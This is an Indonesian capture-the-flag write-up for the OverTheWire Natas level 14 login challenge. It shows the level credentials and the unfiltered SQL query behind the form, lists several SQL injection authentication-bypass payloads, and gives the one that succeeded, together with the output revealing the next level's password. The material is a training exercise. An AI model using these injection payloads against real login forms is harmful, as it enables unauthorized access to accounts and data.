



# soal
Username: natas14 \
URL:      http://natas14.natas.labs.overthewire.org

# solve
- login with cred natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
- di soal kali ini terdapat sebuah form login username admin disini ketika saya coba cek sourcenya terdapat connect database hanya saja tidak ada filternya
  
  ```bash
  SELECT * FROM USERS WHERE username = '<input>' AND password = '<input>';
  # pas dicoba " dia berhasil
  SELECT * FROM USERS WHERE username = '"<input>' AND password = '<input>';

  "admin
  " OR "1" = "1
  " OR "test" = "test
  ```
- saya mencoba memasukan sqli manual dengan wordlist ini
  - https://github.com/payloadbox/sql-injection-payload-list
- waktu saya mencoba yang ini berhasil
  
  
  ```bash
  " OR 1 = 1 -- -
  ```
- output
  ```bash
  # Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
  ```

# flag
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx